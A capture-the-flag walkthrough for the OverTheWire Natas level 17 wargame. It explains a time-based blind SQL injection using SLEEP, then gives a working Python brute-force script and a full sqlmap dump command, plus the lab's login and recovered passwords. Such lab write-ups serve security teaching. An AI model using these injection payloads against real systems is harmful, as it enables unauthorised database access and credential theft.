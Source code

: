 # OverTheWire Wargames

## Natas Level 16 --> Level 17

**Username:** natas17

**Password:** 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

**URL:**      http://natas17.natas.labs.overthewire.org

 
### Solution
* Click view sourcecode there you can see that there isn't any output we got back from the server, so we need to think out something else to determine the response of the select statement
* We can use 'SLEEP(n)' to determine from the response time whether entered character exists in the password or not, using this query (Time-based attacks):
```
 SELECT * from users where username="natas18" AND password LIKE BINARY '{char}%' AND SLEEP(5) --
```
* Notice that the condition after 'AND' execute only if the previous condition returns TRUE, so if the password condition return true the response should be delayed by 5sec
* We can implement this approach in two ways:

#### Python Script
* To perform brute-force to retrieve the password using Time-based attack use this python script:
```py
  import requests, string

  chars = string.ascii_uppercase + string.ascii_lowercase + '0123456789'
  base_url = 'http://natas17.natas.labs.overthewire.org/index.php?username='
  password = ''

  newChars = []
  for char in chars:
      r = requests.get(base_url+f'natas18%22+AND+password+LIKE+BINARY+%22%25{char}%25%22+AND+SLEEP%285%29+%23', auth=('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'))
      if r.elapsed.total_seconds() >= 5:
          newChars.append(char)

  chars = ''.join(newChars)
  print('Characters used in password: ' + chars)            

  for i in range(32):
      cnt = 0
      while True:
          payload = password + chars[cnt]
          r = requests.get(base_url+f'natas18%22+AND+password+LIKE+BINARY+%22{payload}%25%22+AND+SLEEP%285%29+%23', auth=('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'))
          cnt += 1

          if r.elapsed.total_seconds() >= 5:
              password = payload
              print(password, end = '\r')
              break
```

#### Sqlmap
* Use this command to retreive the password using sqlmap *(Database name and columns name can be found in the sourcecode)*
```sh
  sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" --auth-type=Basic --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw --data="username=natas18" --level=3 --risk=1 --technique=T --threads=4 --dbms=MySQL -D natas17 -T users -C username,password --dump --batch
```
* Here is an explaination of each flag:
> -u              URL
> 
> --auth-type     HTTP authentication
> 
> --auth-cred     HTTP authentication credentials (name:password)
> 
> --data          Data string to be sent
> 
> --level         Number of checks to be performed.  (Range is 1 to 5. Default is 1.)
> 
> --risk          Types of payloads to use. Higher numbers could cause problems for the server. (Range is 1 to 3.  Default is 1.)
> 
> --technique     T is for Time-based attacks
> 
> --threads       Max number of concurrent HTTP(s) requests
> 
> --dbms          DataBase Management System 
> 
> -D              Database name 
>        
> -T              Table name
> 
> -C              Column name(s)
> 
> --dump          Dump DBMS database table entries
> 
> --batch         Never ask for user input, use the default behaviour


* You got the password!!

### Natas18 Password
> xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

